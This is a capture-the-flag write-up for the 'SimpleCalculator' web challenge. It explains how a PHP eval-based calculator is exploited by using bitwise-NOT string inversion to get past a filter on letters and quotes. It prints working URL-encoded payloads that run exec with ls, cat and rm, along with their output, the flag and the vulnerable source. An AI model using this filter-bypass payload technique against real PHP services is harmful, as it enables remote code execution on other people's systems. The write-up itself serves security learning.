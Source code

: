 ## SimpleCalculator

#### Solved by Fluoxetine

```
Some restriction should prevent this simple calculator from being hacked. Right?

61.28.237.24 30101

authors: d0r4, Em0n
```

![](image0.png)
![](image1.png)
![](image2.png)
![](image3.png)
![](image4.png)
![](image5.png)
![](image6.png)
![](image7.png)

We are given a web form that allows us to input values and operations to a calculator and the results will be printed.

Some quick experiments reveal that we can not use neither letters nor quotes. The input must also be shorter than 20 characters.

It’s highly likely that the server is doing some sort of `eval` to perform the calculation. We can exploit it to run functions like `exec("ls")`, but we first need to figure out some way to pass strings.

The trick here is to use the bitwise NOT operator. When PHP encounters `~` and a string, it will invert that string. Therefore, we can invert our string, passing it to the calculator along with `~`, and PHP will invert back to the original string :)

Sample payload for `exec("ls -l >a")`: `(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

We need to put the string in bracket to make PHP treat it as string. We don't need any quotes because PHP treats unknown constants as strings (e.g. `echo aabbccdd` will print out `aabbccdd` if `aabbccdd` has not been defined as a constant).

Now it's just the matter of choosing which commands to run. The command has the maximum length of 10.

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l >a") . ")" . "\n";  // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l />a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%D0%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat /f*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%99%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";      // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

Run the payload like this: `http://61.28.237.24:30101/?equation=(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

Read `a`: `http://61.28.237.24:30101/a`

Output of `ls -l >a`:

```
total 4
-rw-r--r--. 1 www-data www-data   0 May 24 01:39 a
-rwxrw-r--. 1 www-data root     856 May 18 11:52 index.php
drwxr-xr-x. 1 www-data root      23 May 18 11:52 static
```

Output of `ls -l />a`:

```
total 4
drwxr-xr-x.   1 root root  28 May 12 12:48 bin
drwxr-xr-x.   2 root root   6 Mar 19 23:44 boot
drwxr-xr-x.   5 root root 360 May 23 13:13 dev
drwxr-xr-x.   1 root root  66 May 23 13:13 etc
-rwxrw-r--.   1 root root  25 May 18 11:52 fl4ggggH3reeeeeeeeeee
drwxr-xr-x.   2 root root   6 Mar 19 23:44 home
drwxr-xr-x.   1 root root  21 May 12 12:48 lib
drwxr-xr-x.   2 root root  34 May 11 00:00 lib64
drwxr-xr-x.   2 root root   6 May 11 00:00 media
drwxr-xr-x.   2 root root   6 May 11 00:00 mnt
drwxr-xr-x.   2 root root   6 May 11 00:00 opt
dr-xr-xr-x. 570 root root   0 May 23 13:13 proc
drwx------.   1 root root   6 May 12 13:41 root
drwxr-xr-x.   1 root root  36 May 23 13:13 run
drwxr-xr-x.   1 root root  20 May 12 12:48 sbin
drwxr-xr-x.   2 root root   6 May 11 00:00 srv
dr-xr-xr-x.  13 root root   0 May 11 11:41 sys
drwxrwxrwt.   1 root root   6 May 12 13:41 tmp
drwxr-xr-x.   1 root root  19 May 11 00:00 usr
drwxr-xr-x.   1 root root  17 May 12 12:43 var
```

Output of `cat /f*>a`:

```
HCMUS-CTF{d4ngErous_eVal}
```

Just for the sake of completeness, we can also dump `index.php`:

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat i*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%96%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";     // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

```php
<?php

    $html = '   <form>
        <label for="equation">Equation: </label>
            <input name="equation" value="13*37">
        <input type="submit">
    </form>
';
    if (isset($_GET["equation"])) {
        $formula = $_GET["equation"];
        if (preg_match_all('/[a-z\'"`]+/i', $formula)) {
            echo "<video controls autoplay><source src='static/video.mp4' type='video/mp4'></video>";
            echo "<h1>Are you trying to hack me? Alphabetic character and quote is not allowed here</h1>";
        }
        else if (strlen($formula) >= 20) {
            echo "<h1>This is just a simple calculator, not WolframAlpha, try a shorter equation</h1>";
        }
        else
        {
            eval('$res = ' . $formula . ';');
            echo isset($res) ? $res : '?';
        }
    }
    else
        echo $html;
?>
```

**Flag:** `HCMUS-CTF{d4ngErous_eVal}`

